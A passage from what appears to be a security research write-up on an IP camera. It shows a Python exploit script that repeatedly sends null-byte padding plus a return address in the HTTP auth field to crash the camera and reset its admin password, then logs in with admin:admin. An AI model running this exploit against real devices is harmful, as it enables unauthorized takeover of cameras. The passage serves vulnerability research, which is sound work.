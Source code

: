 As a crash would occur after some of the attempts, our exploitation code should wait long enough for the camera to restart automatically. Here the script itself:

```
from requests import get
from struct import pack
from time import sleep

FORBIDDEN_URL = "http://172.20.10.10/log"
NULL_BYTE = "\x00"

RESET_PWD_ADDRESS = pack('<I', 0x7BCF4)

def main():
    is_up = 0
    for i in range(139, 250):
        while is_up == 0:
            is_up = check_connectivity()
        print "=> Camera is UP, exploiting with (%s NULL_BYTE + RESET_PWD_ADDRESS)" % i
        sleep(15) #prevent sending another increase request while the camera is rebooting
        do_exploit(i)
        is_up = 0

def check_connectivity():
    try:
    	r = get(FORBIDDEN_URL, auth=('admin','admin'), timeout=5)
        if r.status_code == 401:
            return 1
        elif r.status_code == 200:
            print "[*] /!\ Successfull exploit, connect to %s using admin:admin" % FORBIDDEN_URL
            exit(0)
        else:
            return 0
    except:
        print "[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec"
        sleep(60)
        return 0


def do_exploit(i):
    payload = i * NULL_BYTE + RESET_PWD_ADDRESS
    try:
        r = get(FORBIDDEN_URL, auth=(payload,''), timeout=5)
        exit(0)
    except:
        pass

if __name__ == '__main__':
    main()
```

Starting with the 139th attempt, the camera started to crash and reboot.
